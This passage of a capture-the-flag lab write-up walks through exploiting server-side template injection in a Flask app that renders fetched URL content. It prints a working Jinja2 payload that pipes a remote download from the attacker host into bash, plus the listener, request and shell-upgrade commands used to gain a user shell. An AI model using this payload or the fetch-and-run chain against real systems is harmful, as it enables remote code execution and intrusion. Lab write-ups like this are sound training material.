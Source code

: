 
### SSTI

The source code reveals a simple **Flask** application. On a **POST request**, it retrieves a URL from the `website_url` parameter, fetches its content using **PycURL**, and formats the response into `website_content`, which is passed to `render_template_string`.

The vulnerability lies in our ability to control the URL and, consequently, the response content. This allows us to inject a template into `website_content`, which is then processed by the **Jinja2 templating engine** via `render_template_string`, enabling **Server-Side Template Injection (SSTI)**.

So if we were to host a file with malicious template such as:

```console
$ cat template
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.14.101.76|bash').read() }}                           

$ python3 -m http.server 80
```
{: .wrap }

When we make the site fetch it, the response would be a template that would be formatted into the HTML code present in the application code and would get passed to `render_template_string` and executed.

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=http://10.14.101.76/template'  http://172.18.0.1:5000/
```
{: .wrap }

We can see the server first fetching the template and then our reverse shell payload:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.158.77 - - [16/Aug/2025 20:37:29] "GET /template HTTP/1.1" 200 -
10.10.158.77 - - [16/Aug/2025 20:37:29] "GET / HTTP/1.1" 200 -
```

And on our listener, we obtain a shell as the `hansolo` user and can read the first flag.

```console
$ nc -lvnp 443
hansolo@contrabando:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
hansolo@contrabando:~$ export TERM=xterm
hansolo@contrabando:~$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

hansolo@contrabando:~$ id
uid=1000(hansolo) gid=1000(hansolo) groups=1000(hansolo)
hansolo@contrabando:~$ wc -c h*.txt
36 h[REDACTED].txt
```
